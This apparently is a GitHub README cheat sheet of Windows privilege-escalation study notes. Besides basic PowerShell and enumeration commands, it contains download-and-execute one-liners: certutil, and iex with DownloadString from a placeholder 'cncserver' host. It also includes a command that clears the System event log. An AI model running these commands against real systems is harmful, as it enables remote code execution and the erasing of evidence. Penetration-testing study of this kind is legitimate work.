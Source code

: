 # WindowsPrivEsc
Repository on Windows Privilege Escalation, It contains helpful resources which can guide you escalating your privileges on Windows. I was noting all of the Privilege Escalation methods and vectors while I was studying it. Please go through it and you may find it helpful. Also, Small CheatSheets can be found here which can be important. Will keep updating it!


## PowerShell Basic Commands:

`Get-ChildItem` (Displays all the contents in the current directory)

`Get-Alias` (Displays all the aliases)

`Set-Alias` (Setup your Alias)

`$profile` (Lists your powershell profile, for eg: `"C:\Users\user\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1"`)

`Import-Module ./PowerUp.ps1` (Imports a PowerShell Script Module)

`Remove-Item` (Delete any file or folder)

`Import-Alias` (Import aliases)

## Download and Execute:

### CertUtil:

`certutil -urlcache -f http://127.0.0.1/sample.exe C:\temp\sample.exe && C:\temp\sample.exe`

### PowerShell:

Download file and save to disk :

`Invoke-WebRequest "http://127.0.0.1/sample.exe" -OutFile "C:\temp\sample.exe"`

Download and execute in memory :

`iex (New-Object Net.WebClient).DownloadString('http://cncserver/samplescript.ps1')`

### Post exploitation enumeration:

- `whoami /all` : Gain all information about the user on the machine.
- `whoami/groups` : Gain information only about the groups the current user is present in.
- `whoami /priv` :  Gain information about the privileges of the user.
- `systeminfo` : Display information about the system such as Kernel Version, Architecture, OS Version and so on.
- `driverquery` : Display a list of all the installed drivers on victim machine
- `sc query <servicename>` : Display information about a particular service.
- `tasklist` : Obtain Information about running tasks
- `tasklist /m kernel32.dll` : Obtain information about running tasks which are linked with a particular module  
- `taskkill /f /pid <pid>` : Kill a specified process ID
- `wevtutil el` : List all logs on the system
- `wevtutil cl System` : Clear all logs (Requires Admin Privileges)
- `wmic logicaldisk get Caption,Description` : List all hard-drives on the system
- `sc query | findstr "SERVICE_NAME"` : Display all service names


# Socials

TwitterID: https://twitter.com/BhalgamaVedant 

YouTube: https://www.youtube.com/channel/UCIlMtOiRDi1luvhtjczvjJw 
